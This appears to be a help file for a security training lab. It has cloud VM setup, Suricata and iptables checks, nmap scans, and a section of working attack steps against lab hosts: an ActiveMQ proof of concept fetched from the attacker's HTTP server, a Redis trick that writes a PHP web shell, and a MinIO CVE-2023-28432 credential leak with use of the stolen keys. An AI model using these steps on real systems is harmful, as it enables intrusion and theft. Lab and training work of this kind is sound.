 # Help


## Yandex Cloud

### Create VM
```bash
yc compute instance create \
  --name warfare-vm \
  --public-ip \
  --zone ru-central1-a \
  --hostname warfare-vm \
  --cores 2 \
  --memory 2GB \
  --create-boot-disk image-id=fd84n8eontaojc77hp0u,size=40GB,image-folder-id=standard-images \
  --ssh-key ~/.ssh/id_rsa.pub \
  --core-fraction 50
```

## General

### Resize vagrant disk
```bash
df -h
lsblk
sudo pvresize /dev/sda3
sudo lvextend -l +100%FREE /dev/mapper/ubuntu--vg-ubuntu--lv
sudo resize2fs /dev/mapper/ubuntu--vg-ubuntu--lv
sudo cfdisk /dev/sda
```

### Check iptables:
```bash
sudo iptables -L DOCKER-USER -nv --line-numbers
```

### Check Suricata logs:
```bash
journalctl -u suricata.service -b
sudo tail -n 200 /var/log/suricata/suricata.log
sudo tail -n 0 -f /var/log/suricata/fast.log
sudo tail -n 0 -f /var/log/suricata/eve.json | jq .
```

### Run Suricata:
```bash
sudo suricata -c /etc/suricata/suricata.yaml -q 0
```

### Run NMAP scan:
```bash
nmap -sS victim     # SYN scan
nmap -sX victim     # Xmas scan
nmap -sU victim     # UDP scan
nmap -O victim      # OS detection
```

## Vulnerabilities

### 1. ActiveMQ
```bash
nmap -sV -p 61616,8161 172.20.0.101
curl -I http://172.20.0.101:8161/
cd /opt
python3 -m http.server 8888
python3 poc.py -i 172.20.0.101 -p 61616 -u http://172.20.0.10:8888/poc.xml
```

### 2. Redis Unauthorized Access + Command Execution
```bash
nmap -sV -p 6379 172.20.0.102
redis-cli -h 172.20.0.102 ping
redis-cli -h 172.20.0.102
>>> info server
>>> config get "*"
>>> keys *
>>> dbsize
>>> config set dir /tmp
>>> config set dbfilename webshell.php
>>> set test "<?php system($_GET['cmd']); ?>"
>>> save
```

### 3. Minio
```bash
nmap -sV -p 9000,9001 172.20.0.103
curl -I http://172.20.0.103:9000/
curl -I http://172.20.0.103:9001/
curl -X POST http://172.20.0.103:9000/minio/bootstrap/v1/verify \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "" | jq '.MinioEnv.MINIO_ROOT_USER, .MinioEnv.MINIO_ROOT_PASSWORD'
```

Then we can use the AWS CLI to exploit the vulnerability
```bash
aws configure set aws_access_key_id minioadmin
aws configure set aws_secret_access_key minioadmin-vulhub
aws configure set region us-east-1
aws --endpoint-url http://172.20.0.103:9000 s3 mb s3://cve-2023-28432-pwned make_bucket: cve-2023-28432-pwned
echo "MinIO Cluster compromised via CVE-2023-28432!" > cve_exploit_proof.txt
echo "Stolen credentials: minioadmin:minioadmin-vulhub" >> cve_exploit_proof.txt
aws --endpoint-url http://172.20.0.103:9000 s3 cp cve_exploit_proof.txt s3://cve-2023-28432-pwned/
aws --endpoint-url http://172.20.0.103:9000 s3 ls s3://cve-2023-28432-pwned/
```
